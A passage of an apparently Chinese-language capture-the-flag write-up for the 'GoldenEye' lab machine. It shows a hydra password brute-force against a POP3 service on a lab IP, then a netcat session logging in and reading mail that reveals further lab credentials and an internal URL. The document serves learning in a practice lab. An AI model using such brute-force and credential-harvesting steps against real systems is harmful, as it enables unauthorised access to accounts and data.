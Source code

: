 ```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.158.21 pop3
[55007][pop3] host: 10.10.158.21   login: natalya   password: bird
```
拿了信息再爆一个密码
login: natalya   password: bird

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.114.10 55007
(UNKNOWN) [10.10.114.10] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....
```